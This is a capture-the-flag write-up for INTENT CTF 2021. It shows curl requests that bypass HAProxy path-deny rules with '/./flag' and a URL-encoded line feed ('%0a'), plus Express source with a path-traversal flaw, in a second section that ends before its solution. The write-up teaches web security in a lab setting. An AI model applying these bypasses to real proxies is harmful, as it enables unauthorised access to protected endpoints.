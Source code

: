 # INTENT CTF 2021

![Logo](img/Intent_logo.png)

[INTENT Security Research Summit 2021](https://intentsummit.org/) was founded by security companies CyberArk and Checkmarx and is focused on security research. 

I played (most of) their web challenges and I thought they were simple, but very creative. 

In this write-up, I'll make a fast-pass on the solved challenges, with less details than usual.

![solved-challenges](img/solved-challenges.png)

# Door (un)Locked

![door-unlocked](img/door-unlocked.png)

## Challenge

In this challenge, we are presented with an empty page.

![door-unlocked-page](img/door-unlocked-page.png)

We have an attachment called **ha.cfg**:

```apache
global
    daemon
defaults  
    mode    http
    timeout  client  50000
    timeout  server  50000
    timeout  connect 50000
frontend web 
    bind *:8000  
    http-request deny if { path_beg /flag }
    http-request deny if { path,url_dec -m reg ^.*/?flag/?.*$ }
    default_backend websrvs
backend websrvs 
    http-reuse always
    server srv1 flask:5000
```

While searching a little bit, I confirmed my suspicion that it is an haproxy configuration file. 

We have an haproxy in front of an internal server (flask:5000). There is a /flag endpoint, which is our obvious target, but it is externally blocked by the two **http-request deny**:

1. The first blocks any request starting with **/flag**
2. The second blocks any request that, after urldecoding, matches the regex bellow.

```
^.*/?flag/?.*$
```

Let's take a look:

```
$ curl http://door-unlocked.chal.intentsummit.org:8000/flag
<html><body><h1>403 Forbidden</h1>
Request forbidden by administrative rules.
</body></html>
```

## Hacking

For testing purposes, I started a local haproxy protecting a fake http server (just a netcat), just to test the bypass.

```
$ nc -l -p 5000 < netcat.response.http
```

At first, let's comment the regex line to understand the first protection.

```
http-request deny if { path_beg /flag }
# http-request deny if { path,url_dec -m reg ^.*/?flag/?.*$ }
```

Since it protects only the exact /flag string, it's a very easy bypass:

```
$ # Normal block
$ curl http://localhost:8000/flag
<html><body><h1>403 Forbidden</h1>
Request forbidden by administrative rules.
</body></html>
$
$ # Bypass
$ curl --path-as-is http://localhost:8000/./flag
Bypassed!
```

We just changed **/flag** to **/./flag** (shame on you). Note that I used the --path-as-is flag on curl to avoid normalization on the client-side.

Let's invert the the comments to test the regex bypass:

```
# http-request deny if { path_beg /flag }
http-request deny if { path,url_dec -m reg ^.*/?flag/?.*$ }
```

You should really take a look at https://regex101.com/, that explains the regex meaning to dumb people like me.

![door-unlocked-regex-explain](img/door-unlocked-regex-explain.png)

At first, it looks like anything with the word "flag" inside the URL would be blocked, even if we send a urlencoded payload, since it decodes before matching. BUT, if you analyze the details of the regex, we can find our vulnerability. regex101 makes it easier:

![door-unlocked-regex-hack](img/door-unlocked-regex-hack.png)

So... what about sending a line terminator?
(Note that I'm keeping the the first bypass in the game)

```
# Normal block
$ curl --path-as-is http://localhost:8000/./flag
<html><body><h1>403 Forbidden</h1>
Request forbidden by administrative rules.
</body></html>
$ 
$ # Bypass
$ curl --path-as-is http://localhost:8000/./%0a/../flag
Bypassed!
```

Pretty nice, it accepted our %0A (ASCII Line Feed) and, since it does not match the **.\***, it bypassed the regex.

Now, get the flag in the real server:

```
$ curl --path-as-is http://door-unlocked.chal.intentsummit.org:8000/./%0a/../flag
INTENT{Smuggl3_w1th_H4_Pr0xy}
```

Unlocked!

```INTENT{Smuggl3_w1th_H4_Pr0xy}```

# Etulosba

![Etulosba-Description](img/etulosba-description.png)

## Challenge

In this challenge, the main page only shows the word **etulosba**, which is **absolute** reversed, the obvious hint. We also got the source code:

```javascript
const fs = require("fs");
const path = require("path");
const express = require("express");

const server = express();

server.get("/", function (req, res) {
    res.end("<html><body>etulosba</body></html>");
});

server.get("/files/images/:name", function (req, res) {
    if (req.params.name.indexOf(".") === -1) {
        return res.status(400).json({ error: "invalid file name" });
    }

    res.sendFile(__dirname + path.join("/files/images/", req.params.name));
});

server.get("/files/binary/:name", function (req, res) {
    if (req.params.name.indexOf(".") !== -1) {
        return res.status(400).json({ error: "invalid file name" });
    }

    res.sendFile(path.resolve(__dirname, "/files/binary/", req.params.name));
});

fs.writeFileSync(path.join(__dirname, "flag.name"), process.env.FLAG_NAME);
fs.writeFileSync(path.join("/tmp", process.env.FLAG_NAME), process.env.FLAG);

server.listen(process.env.HTTP_PORT);
```

In summary:
* The flag is a file inside **/tmp**, which we don't know the name
* There is a file called **flag.name**, on the app directory.
    * Inside this file is the unknown name of the flag file.

## Hacking

It is pretty clear that we have to get the flag.name file and, using the value, getting the flag file inside tmp.

# References

* INTENT CTF 2021: https://ctf.intentsummit.org/
* CTF Time Event: https://ctftime.org/event/1454
* INTENT Cybersecurity Summit 2021: https://intentsummit.org/
* CyberArk: https://www.cyberark.com/
* Checkmarx: https://checkmarx.com/
* Repo with the artifacts discussed here: https://github.com/Neptunians/asisctf-2021-writeup-ascii_art_as_a_service
* Team: [FireShell](https://fireshellsecurity.team/)
* Team Twitter: [@fireshellst](https://twitter.com/fireshellst)
* Follow me too :) [@NeptunianHacks](twitter.com/NeptunianHacks)